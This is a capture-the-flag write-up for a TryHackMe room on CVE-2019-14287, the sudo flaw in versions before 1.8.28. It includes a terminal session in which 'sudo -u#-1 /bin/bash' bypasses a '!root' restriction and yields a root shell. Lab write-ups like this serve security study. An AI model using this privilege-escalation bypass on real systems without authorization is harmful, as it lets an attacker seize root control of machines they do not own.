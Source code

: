 # Room
https://tryhackme.com/room/sudovulnsbypass

# Task 1 - Deploy
Deploy and Connect

# Task 2 - Security Bypass
CVE-2019-14287 is a vulnerability found in the Unix Sudo program and works with Sudo versions < 1.8.28.  Sudo is a linux command that allows you to execute programs as another user.  Sudo can be configured with the /etc/sudoers file or with sudo visudo

Examples:
* sudo command_here
* sudo -u#id_here command_here

The exploit invovles taking advantage of a UID less than 0.  When a UID less than 0 is supplied, the program incorrectly reads it as 0, which is the UID of root

Practical
```
tryhackme@sudo-privesc:~$ sudo -l
Matching Defaults entries for tryhackme on sudo-privesc:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User tryhackme may run the following commands on sudo-privesc:
    (ALL, !root) NOPASSWD: /bin/bash

tryhackme@sudo-privesc:~$ sudo /bin/bash
[sudo] password for tryhackme: 
Sorry, user tryhackme is not allowed to execute '/bin/bash' as root on sudo-privesc.

tryhackme@sudo-privesc:~$ sudo -u#-1 /bin/bash
root@sudo-privesc:~# whoami
root
```
